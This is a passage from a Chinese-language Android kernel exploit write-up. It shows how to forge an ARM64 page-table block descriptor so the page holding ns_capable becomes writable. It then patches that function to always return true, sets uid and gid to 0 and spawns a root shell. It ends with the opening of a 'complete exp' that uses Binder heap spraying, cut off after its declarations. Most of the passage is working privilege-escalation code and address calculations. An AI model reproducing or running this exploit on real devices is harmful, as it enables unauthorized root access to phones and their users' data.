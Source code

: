 伪造 d_block 描述符 将它改成可读可写，接下来只要在某虚拟地址的一节页表描述符的地方写上我们伪造的就行了，即可将该页改成可读可写，具体这么计算 swapper_pg_dir 为一级页表的地址 0xffffffc001e50000

```
L1_index = (vaddr & 0x0000007fc0000000) >> 30;
fake_d_block_addr = swapper_pg_dir + L1_index * 0x8;

```

算出 ns_capable 所在页的 d_block 描述府地址 0xffffffc2000b1024 为 ns_capable 的内核地址

```
 L1_index = (0xffffffc2000b1024 & 0x0000007fc0000000) >> 30
>>> hex(8*L1_index)
'0x840L

```

因而 0xffffffc001e50840 写上 0x80000e71，将 ns_caple 函数所在页的权限改为可读可写

```
 void kernel_patch_ns_capable(unsigned long * addr) {
        unsigned int *p = (unsigned int *)addr;

        p[0] = 0xD2800020;//MOV x0,#1
        p[1] = 0xD65F03C0;//RET
}
unsigned long ns_capable_addr  = 0xffffffc0000b1024 - 0xffffffc000000000 + 0xffffffc200000000;
kernel_patch_ns_capable((unsigned long *) ns_capable_addr);
	if(setreuid(0, 0) || setregid(0, 0)){
       		printf("[-] setgid failed\n");
		return -1;
        }
	if (getuid() == 0)
        {
                printf("[+] spawn a root shell\n");
                execl("/system/bin/sh", "/system/bin/sh", NULL);
        }

```

之后将 ns_caple patch 掉 即可提权

完整 exp:

```
#include <stdio.h>
#include <pthread.h>
#include "pwn.h"
#include "cpu.h"
#include <sys/xattr.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/eventfd.h>
#include <sys/inotify.h>
#include <poll.h>

sp<IMediaPlayerService> getMediaPlayer();
sp<IMediaPlayer> mediaPlayer;
#define BAIT 1000
#define BUFF_SIZE 96
Parcel dataBCArray[BAIT];
Parcel replyBCArray[BAIT];

#define HEAP_SPRAY_TIME 30
int fd_heap_spray;

const uint8_t *gDataArray[BAIT];
Parcel dataArray[BAIT], replyArray[BAIT];
```